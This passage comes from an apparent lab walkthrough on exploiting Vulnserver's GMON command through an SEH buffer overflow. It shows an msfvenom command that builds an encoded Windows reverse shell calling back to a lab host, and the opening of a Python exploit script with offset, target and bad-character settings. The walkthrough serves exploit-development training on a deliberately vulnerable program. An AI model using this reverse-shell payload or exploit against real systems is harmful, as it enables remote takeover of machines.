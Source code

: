![Long Jump](/assets/img/vulnserver_gmon_61_long_jump.png)

We end up at the first A.


## Shellcode

Now that we have carved out enough space we can upload some shellcode. You can pop calc again like we did in TRUN, but I am skipping this step here and go straight for the reverse shell.


Generate a reverse shell with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.79 LPORT=53 -f py -v payload -e x86/shikata_ga_nai -b '\x00\x0A' EXITFUNC=seh
```

Please note that we use `EXITFUNC=seh` instead of `thread` this time.

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 6 - Exploit
import socket
import struct

offset = 3549
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a
badchars = [ 0x00, 0x0a ] # found badchars
NOP = b"\x90"
```